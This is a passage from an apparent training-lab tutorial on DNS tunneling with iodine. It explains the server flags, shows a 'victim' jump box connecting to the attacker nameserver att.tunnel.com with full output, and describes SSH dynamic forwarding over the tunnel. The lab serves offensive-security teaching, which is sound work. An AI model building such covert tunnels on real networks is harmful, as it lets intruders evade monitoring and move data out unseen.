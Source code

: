 Let's explain the previous command a bit more:

- Ensure to execute the command with sudo. The iodined creates a new network interface (dns0) for the tunneling over theÂ DNS.
- The -f argument is to run the server in the foreground.
- The -c argument is to skip checking the client IP address and port for eachÂ DNSÂ request.
- The -P argumentÂ is to set a password for authentication.
- Â The 10.1.1.1/24 argument is to set the network IP for the new network interface (dns0). The IP address of the server will be 10.1.1.1 and the client 10.1.1.2.
- att.tunnel.com is the nameserver we previously set.

On the JumpBox machine, we need to connect to the server-side application. To do so, we need to execute the following:

Victim Connects to the Server  

```markup
thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com                                                                                                           
Opened dns0                                                                                                                                                     
Opened IPv4 UDP socket                                                                                                                                          
Sending DNS queries for att.tunnel.com to 127.0.0.11                                                                                                            
Autodetecting DNS query type (use -T to override).                                                                                                              
Using DNS type NULL queries                                                                                                                                     
Version ok, both using protocol v 0x00000502. You are user #0                                                                                                   
Setting IP of dns0 to 10.1.1.2                                                                                                                                  
Setting MTU of dns0 to 1130                                                                                                                                     
Server tunnel IP is 10.1.1.1                                                                                                                                    
Testing raw UDP data to the server (skip with -r)                                                                                                               
Server is at 172.20.0.200, trying raw login: OK                                                                                                                 
Sending raw traffic directly to 172.20.0.200                                                                                                                    
Connection setup complete, transmitting data.
```

Note that we executed the client-side tool (iodine) and provided the -f and -P arguments explained before. Once the connection is established, we open a new terminal and log in to 10.1.1.1 viaÂ SSH.

Note that all communication over the network 10.1.1.1/24 will be over theÂ DNS. We will be using the -D argument for the dynamic port forwarding feature to use theÂ SSHÂ session as aÂ proxy. Note that we used the -f argument to enforceÂ sshÂ to go to the background. The -4 argument forces theÂ sshÂ client to bind on IPv4 only.Â 

SSHoverDNS  
